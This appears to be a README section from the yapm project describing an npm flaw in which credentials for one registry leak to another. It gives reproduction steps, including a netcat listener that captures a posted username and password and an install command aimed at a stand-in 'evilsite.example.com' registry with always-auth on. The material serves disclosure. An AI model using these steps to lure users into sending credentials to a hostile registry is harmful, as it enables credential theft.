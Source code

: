 Registry-specific configuraion: security fixes
----------------------------------------------

`npm` has one configuration for all registries. If you're using different registries, `npm` can leak your credentials from one registry to another. Also, user can be tricked to expose his credentials with a crafted command-line string.

`yapm` has separate configurations for each registry, which means this flaw doesn't exist anymore.



It means that if you authenticated to one registry, but request another one, it can expose sensitive information to that registry. It's extremely important if you use multiple registries administered by different people.

Think about a browser that shares authentication info with all websites. If one website is storing a cookie, your browser will sent it with all requests. If you use just one website, this approach is good. But if you use several of them, this is a critical security flaw.

### This is how you can replicate this bug:

Authenticate yourself in the main registry:

```
$ npm adduser --registry http://registry.npmjs.org/
```

Create and publish a new package:

```
$ mkdir test ; cd test ; echo '{"name":"test","version":"0.0.0"}' > package.json
$ npm publish --registry http://localhost:8080/
```

Listen for all requests on some port in a separate terminal:

```
$ nc -l 8080
POST /_session HTTP/1.1
host: localhost:8080
accept: application/json
content-type: application/json
content-length: 40
Connection: keep-alive

{"name":"test","password":"test"}
```

Do you see it? `npm` is leaking your password to another registry, even though you didn't write it explicitly.

### always-auth issues

It is getting even worse with `always-auth` setting on.

```
$ npm install foobar --reg http://evilsite.example.com/ --always-auth=true
```

